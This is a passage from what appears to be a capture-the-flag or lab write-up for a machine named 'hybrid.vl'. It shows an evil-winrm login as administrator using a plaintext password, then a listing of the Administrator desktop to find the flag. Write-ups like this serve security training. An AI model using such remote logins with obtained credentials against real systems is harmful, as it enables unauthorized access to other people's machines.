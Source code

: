 ![image.png](../images/hybrid%2041.png)

now let’s try to login with winrm

```bash
evil-winrm -i hybrid.vl -u administrator -p 'CkrmFFBPnkFOXoSIq40xL4ZaH92CrRiy'
```

![image.png](../images/hybrid%2042.png)

now let’s go to administrator desktop to see the flag

```bash
dir C:\Users\Administrator\desktop
```
